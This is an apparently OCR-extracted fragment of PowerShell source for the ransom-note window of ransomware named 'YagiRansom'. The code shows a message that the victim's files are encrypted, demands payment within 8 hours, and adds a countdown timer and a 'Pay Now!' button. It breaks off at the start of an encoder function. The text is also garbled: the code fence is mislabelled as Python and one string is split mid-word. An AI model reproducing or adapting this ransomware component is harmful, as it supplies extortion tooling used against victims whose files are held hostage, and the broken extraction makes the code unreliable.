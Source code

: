 ```python=
$formIcon = New-Object system.drawing.icon ("$env:temp\YagiRansom.ico") 
$form.Icon = $formicon  
$img = [System.Drawing.Image]::Fromfile("$env:temp\YagiRansom.jpg")
$pictureBox = new-object Windows.Forms.PictureBox
$pictureBox.Width = 920
$pictureBox.Height = 370
$pictureBox.SizeMode = "StretchImage"
$pictureBox.Image = $img
$form.controls.add($pictureBox)
$label = New-Object System.Windows.Forms.Label
$label.ForeColor = "Cyan"
$label.Text = "All your files have been encrypted by YagiRansom!" 
$label.AutoSize = $true 
$label.Location = New-Object System.Drawing.Size(50,400) 
$font = New-Object System.Drawing.Font("Consolas",15,[System.Drawing.FontStyle]::Bold) 
$form.Font = $Font 
$form.Controls.Add($label) 
$label1 = New-Object System.Windows.Forms.Label
$label1.ForeColor = "White"
$label1.Text = "But don
t worry, you can still recover them with the recovery key if you pay the ransom in the next 8 hours." 
$label1.AutoSize = $true 
$label1.Location = New-Object System.Drawing.Size(50,450)
$font1 = New-Object System.Drawing.Font("Consolas",15,[System.Drawing.FontStyle]::Bold) 
$form.Font = $Font1
$form.Controls.Add($label1) 
$okbutton = New-Object System.Windows.Forms.Button;
$okButton.Location = New-Object System.Drawing.Point(750,500)
$okButton.Size = New-Object System.Drawing.Size(110,35)
$okbutton.ForeColor = "Black"
$okbutton.BackColor = "White"
$okbutton.FlatStyle = [System.Windows.Forms.FlatStyle]::Flat
$okButton.Text = 'Pay Now!'
$okbutton.Visible = $false
$okbutton.Enabled = $true
$okButton.DialogResult = [System.Windows.Forms.DialogResult]::OK
$okButton.add_Click({ 
[System.Windows.Forms.MessageBox]::Show($this.ActiveForm, 'Your payment order has been successfully registered!', 'YagiRansom Payment Processing System',
[Windows.Forms.MessageBoxButtons]::"OK", [Windows.Forms.MessageBoxIcon]::"Warning")})
$form.AcceptButton = $okButton
$form.Controls.Add($okButton)
$form.Activate() 2>&1> $null
$form.Focus() 2>&1> $null
$btn=New-Object System.Windows.Forms.Label
$btn.Location = New-Object System.Drawing.Point(50,500)
$btn.Width = 500
$form.Controls.Add($btn)
$btn.ForeColor = "Red"
$startTime = [DateTime]::Now
$count = 10.6
$7VEqr=New-Object System.Windows.Forms.Timer
$7VEqr.add_Tick({$elapsedSeconds = ([DateTime]::Now - $startTime).TotalSeconds ; $remainingSeconds = $count - $elapsedSeconds
if ($remainingSeconds -like "-0.1*"){ $7VEqr.Stop() ; $okbutton.Visible = $true ; $btn.Text = "0 Seconds remaining.." }
$btn.Text = [String]::Format("{0} Seconds remaining..", [math]::round($remainingSeconds))})
$7VEqr.Start()
$btntest = $form.ShowDialog()
if ($btntest -like "OK"){ $Global:PayNow = "True" }}
function R64Encoder { 
```